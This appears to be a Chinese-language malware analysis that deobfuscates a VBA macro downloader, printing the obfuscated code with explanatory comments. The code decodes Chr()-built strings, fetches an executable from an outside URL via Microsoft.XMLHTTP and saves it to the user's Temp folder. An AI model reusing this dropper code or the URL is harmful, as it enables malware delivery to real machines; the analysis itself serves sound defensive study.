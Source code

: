 ```
CallByName LhZitls7wPn, Chr(79) & Chr(112) & Chr(101) & Chr(110), VbMethod, Chr(71) & Chr(69) & Chr(84), _
Nrh1INh1S5hGed _
, False
```

**加密函数lLJrFk6pKsSYJ：**

其中各种乱序的字符串会调用lLJrFk6pKsSYJ函数做解密函数使用，目的是为了将< = ;这些符号替换成空。

使用Debug.Print就可以输出每次被替换出来的真实内容。

```
' 解密函数
Public Function lLJrFk6pKsSYJ(L9QLFPTuZDwM As String)

' 替换 60 <    61  =   59 ;
L9QLFPTuZDwM = Replace(Replace(Replace(L9QLFPTuZDwM, Chr(60), ""), Chr(61), ""), Chr(59), "")

' 获取每次解密后的内容
Debug.Print Now & " : " & L9QLFPTuZDwM

' 这个函数会将加密后的字符串解密，然后创建对象的实例
Set lLJrFk6pKsSYJ = CreateObject(L9QLFPTuZDwM)

End Function
```

- - 运行文件实现

```
'  通过对象下载文件
'  LhZitls7wPn = Microsoft.XMLHTTP
'  LhZitls7wPn.Open GET "http://chateau-des-iles.com/4tf33w/w4t453.exe"
CallByName LhZitls7wPn, Chr(79) & Chr(112) & Chr(101) & Chr(110), VbMethod, Chr(71) & Chr(69) & Chr(84), _
Nrh1INh1S5hGed _
, False


' vu2Wh85645xcP0 = 创建WScript.Shell对象实例
Set vu2Wh85645xcP0 = lLJrFk6pKsSYJ(Chr(87) & "<" & Chr(83) & "c" & Chr(61) & Chr(114) & "i" & Chr(112) & "t" & Chr(59) & Chr(46) & Chr(83) & "=" & Chr(104) & "e" & "<" & "l" & Chr(108))

'  WScript.Shell "Environment" Process
Set GhbwRqU9OkbF = CallByName(vu2Wh85645xcP0, Chr(69) & Chr(110) & "v" & Chr(105) & Chr(114) & Chr(111) & "n" & "m" & Chr(101) & Chr(110) & Chr(116), VbGet, Chr(80) & "r" & "o" & Chr(99) & "e" & Chr(115) & "s")

' "C:\Users\USER\AppData\Local\Temp"
SD3q5HdXxoiA = GhbwRqU9OkbF(Chr(84) & Chr(69) & Chr(77) & Chr(80))

' "C:\Users\USER\AppData\Local\Temp\fghgkbb.exe"
aDPbd2byZb = SD3q5HdXxoiA & "\" & Chr(102) & Chr(103) & Chr(104) & Chr(103) & Chr(107) & Chr(98) & Chr(98) & Chr(46) & "e" & "x" & Chr(101)

Dim bvGEpxCVsZ() As Byte

' http  send
CallByName LhZitls7wPn, Chr(83) & Chr(101) & Chr(110) & Chr(100), VbMethod
' "responseBody"
bvGEpxCVsZ = CallByName(LhZitls7wPn, "r" & "e" & Chr(115) & Chr(112) & Chr(111) & Chr(110) & Chr(115) & Chr(101) & Chr(66) & Chr(111) & Chr(100) & "y", VbGet)
' 保存文件
FlvXHsDrWT3aY bvGEpxCVsZ, aDPbd2byZb
On Error GoTo OhXhZLRKh
```